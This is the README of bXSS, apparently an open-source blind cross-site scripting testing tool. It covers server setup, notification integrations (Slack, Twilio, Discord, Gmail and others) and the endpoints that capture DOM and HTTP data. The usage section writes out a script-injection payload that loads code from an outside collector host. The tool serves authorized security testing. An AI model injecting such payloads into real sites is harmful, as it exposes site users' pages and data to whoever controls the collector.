

# bXSS

bXSS is a Blind XSS application adapted from https://cure53.de/m, you can read about it [here](https://ardern.io/2017/12/10/blind-xss/).



bXSS supports the following:

* [Intrusive Levels](./Images/intrusion.jpg)
* [Email](./Images/email.jpg)
    * [Auto report via /.well-known/security.txt](./Images/securitytxt.jpg)
* [Twilio](./Images/sms.jpg)
* [Slack](./Images/slack.jpg)
* [Webex Teams](./Images/cisco.jpg)
* [Discord](./Images/discord.jpg)
* [Twitter](./Images/twitter.jpg)
* [Payload Generation](./Images/payloads.jpg)
* [Save locally](./Images/file.jpg)

# Requirements

* A server you control
* A usable domain
* Node.js and Express
* A SSL/TLS Certificate, free from [Lets Encrypt](https://letsencrypt.org) (Optional)
* A [Gmail](https://gmail.com) account, to send reports via Nodemailer (Optional)
* A [Twilio Account](https://www.twilio.com/sms) (Optional) 
* A [Slack Token](https://api.slack.com/docs/token-types) (Optional)
* A [Cisco Token](https://developer.webex.com/docs/api/v1/people/get-my-own-details) (Optional)
* A [Discord Token](https://github.com/reactiflux/discord-irc/wiki/Creating-a-discord-bot-&-getting-a-token) (Optional)
* A [Twitter Developer Account](https://developer.twitter.com/en/apply/user) (Optional)

# Step-Up

## Default
* cd bXSS && npm install 
* Update The Configuration || Environment Variables 
    * Domain
        * config.url = Domain intended for use e.g ardern.io
        * config.port = Port to run the Node.js app e.g 3030
    * Twilio <b>(Optional, if you don't want to use Twilio just delete all Twilio references from the config)</b> 
        * config.twilio.accountSid =   [Twilio SID](https://support.twilio.com/hc/en-us/articles/223136607-What-is-an-Application-SID)
        * config.twilio.authToken = [Twilio Auth Token](https://support.twilio.com/hc/en-us/articles/223136027-Auth-Tokens-and-how-to-change-them)
        * config.twilio.to = ['+447500000000','+0018056826043'] Your telephone number(s)
        * config.twilio.from = [Twilio telephone number](https://support.twilio.com/hc/en-us/articles/223136207-Getting-started-with-your-new-Twilio-phone-number)
    * Slack <b>(Optional, if you don't want to use Slack just delete all Slack references from the config)</b> 
        * config.slack.token = [Slack Token](https://api.slack.com/docs/token-types)
        * config.slack.channel = [Channel you want to send the report to](https://get.slack.help/hc/en-us/articles/201402297-Create-a-channel)
        * Slack permissions required [channels:read](https://api.slack.com/scopes/channels:read) and [chat:write](https://api.slack.com/scopes/chat:write)
     * Cisco <b>(Optional, if you don't want to use Cisco just delete all Cisco references from the config)</b> 
        * config.ciscoSpark.token = [Cisco Token](https://developer.webex.com/docs/api/v1/people/get-my-own-details)
        * config.ciscoSpark.sparkRoom = ['email1@domain.com','email2@domain.com']     
    * Discord <b>(Optional, if you don't want to use Discord just delete all Discord references from the config)</b> 
        * Steps to create a bot:
            * Visit https://discordapp.com/developers/applications/
            * Create a new application (e.g bXSSForCompany)
            * Make a note of your CLIENT ID
            * Select 'Bot' 
                * Choose a USERNAME and press 'Click to Reveal Token' (copy the token)
            * Visit the following URL (update with your CLIENT ID) https://discordapp.com/oauth2/authorize?&client_id=YOUR_CLIENT_ID&scope=bot&permissions=2048
            * Select the server you want your bot to join and authorize
            * Update the following values below for the bot to post to the 'text channel' e.g ('general')
        * config.discord.token = 'your bot token'
        * config.discord.channel = 'channel you want it to join, e.g general'    
    * Twitter  <b>(Optional, if you don't want to use Twitter just delete all Twitter references from the config)</b>  
        *   config.twitter.consumer_key = API Key
        * config.twitter.consumer_secret = API Secret Key
        * config.twitter.access_token_key = Application Access Token
        * config.twitter.access_token_secret =  Application Access Token Secret
        * Permissions (Write)
        * config.twitter.recipient_id = Twitter User ID, which can be found [here](https://twitter.com/settings/your_twitter_data)
    * Gmail <b>(Optional, if you don't want to use Gmail just delete all Gmail references from the config)</b>    
        * config.gmail.user = Gmail Username
        * config.gmail.pass = Gmail Password
        * config.gmail.to = ['email1@domain.com','email2@domain.com'] Where you want to send the emails
        * config.gmail.from = Who sent the message, usually Gmail Username
    * Rename configExample.js to config.js
* Start your app (depending on your preference)
    * node app.js
    * pm2 start app.js 
    * nodemon app.js

## Additional Steps (Optional)

* Obtain a let's Encrypt cert
    * [Manual](https://gist.github.com/davestevens/c9e437afbb41c1d5c3ab)
    * [certbot](https://medium.com/@yash.kulshrestha/using-lets-encrypt-with-express-e069c7abe625)
* I would recommend looking at setting up a [reverse proxy](https://www.nginx.com/resources/glossary/reverse-proxy-server/), for example in [NGINX](https://pastebin.com/nCVSh5iv) and skip the next step as I wouldn't want anyone to run express as root.
* Using Node.js
    * Update Configuration 
        * config.letsEncrypt.TLS = true;
        * config.letsEncrypt.publicKey = $Path/fullchain.pem
        * config.letsEncrypt.privateKey = $Path/privkey.pem
        * config.letsEncrypt.ca = $Path/chain.pem
* Start your app (depending on your preference)
    * node app.js
    * npm2 start app.js 
    * nodemon app.js

# Using

Once the application is funcitonal, you would just identify sites you are authorized to test and start to inject different payloads that will attempt to load your resource, the easiest example is:

```
"><script src="https://example.com/m"></script>
````

The application has HTTP queries to utilize:

* POST - /m (captures DOM information)  
* GET - /m (Loads the payload)
* GET - /mH (captures HTTP interactions)
* Payloads - /payloads (Gives payloads you can use for testing blind xss)
* Everything else - Loads alert(1)


# Contribute?

If you like the project, feel free to contribute or if you want to suggest improvements or notice any problems, file a [issue](https://github.com/LewisArdern/bXSS/issues).
